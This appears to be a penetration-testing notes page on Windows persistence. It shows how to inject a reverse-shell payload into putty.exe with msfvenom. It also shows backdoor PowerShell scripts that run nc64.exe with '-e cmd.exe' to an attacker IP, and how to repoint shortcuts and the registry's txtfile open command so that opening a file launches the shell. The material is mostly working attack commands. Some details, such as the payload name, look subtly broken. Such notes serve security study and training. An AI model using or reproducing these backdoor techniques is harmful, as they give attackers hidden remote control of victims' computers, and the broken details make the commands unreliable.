 ### Executable Files
- Legit binary can be replaced with reverse shell. [Msfvenom](Msfvenom.md) can inject payload into a legit binary.
```bash
msfvenom -a x64 --platform windows -x putty.exe -k -p windows/x64/reverse_reverse_tcp LHOST=localhost LPORT=<port> -b "\x00" -f exe -o putty_x.exe
```
### Shortcuts
- Changing shortcut target to our reverse shell
- Point it to a script:
```powershell
# backdoor.ps1
Start-Process -NoNewWindows "c:\tools\nc64.exe" "-e cmd.exe <IP> <PORT>"
C:\Windows\System32\calc.exe
```
- Shortcut target:
```powershell
powershell.exe -WindowStyle Hidden C:\Windows\System32\backdoor.ps1
```
### File Associations
- Registry stores key for every single file type under `HKLM\Software\Classes` which contains the ProgID.
- `ProgID` is the identified for the program that opens that file.
- Example:
```powershell
HKLM\Software\Classes\.txt -> txtfile (ProgID)
```
- `HKLM\Software\Classes` also has entry for the `txtfile` ProgID.
- Default command to run for the files is stored under `HKLM\Software\Classess\<progID>\shell\open\command`
```powershell
HKLM\Software\Classes\txtfile\shell\open\command -> %SystemRoot%\system32\notepad.exe %1
# %1 is the filename
```
- We can change this key to 
```powershell
HKLM\Software\Classes\txtfile\shell\open\command -> powershell.exe -WindowStyle Hidden C:\Windows\System32\backdoor2.ps1
```
- backdoor2.ps1
```powershell
Start-Process -NoNewWindows "c:\tools\nc64.exe" "-e cmd.exe <IP> <PORT>"
C:\Windows\System32\Notepad.exe $args[0]
```
- Opening a txt file will now trigger the reverse shell